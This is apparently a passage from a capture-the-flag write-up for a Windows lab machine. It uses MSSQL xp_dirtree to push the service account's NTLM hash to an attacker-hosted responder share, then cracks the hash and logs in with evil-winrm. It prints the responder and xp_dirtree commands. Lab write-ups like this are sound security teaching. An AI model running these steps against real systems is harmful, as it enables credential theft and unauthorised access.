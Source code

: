 `xp_dirtree` is **an undocumented and unsupported command** that returns a hierarchical directory listing of the specified path in the file system. We can use it to access a `smb` server hosted by us to get the hash of the user running the service. In order to host a `smb` share on our machine, we can use either `responder` or `impacket-smbserver`. We'll be using `responder` here - 
```bash
sudo responder -I tun0 -v
```

By running `xp_dirtree '\\my-ip\anything'` on the `mssqlclient` , we'll get the hash of the user _sql_svc_ on your `responder` console like this -

![Responder capturing sql_svc hash](Images/sql_svc-hash.png)

Since we got the hash, we can save it to a file and crack it with `JohnTheRipper`. The hash is saved in the sql_svc_hash file - 

![Cracking sql_svc hash](Images/hash-crack.png)


# Getting foothold and User flag
Now, we have both the username and password so we could try to authenticate a service. Since port 5985 (*winrm*) is open, we could try to authenticate it by using `evil-winrm`.

![Getting foothold with evil-winrm](Images/foothold.png)

After browsing through the directories, we've found an interesting file in the directory `C:\SQLServer\Logs`. It looks like user _Ryan.Cooper_ has tried to login `mssql` with their passwords instead of their username. 

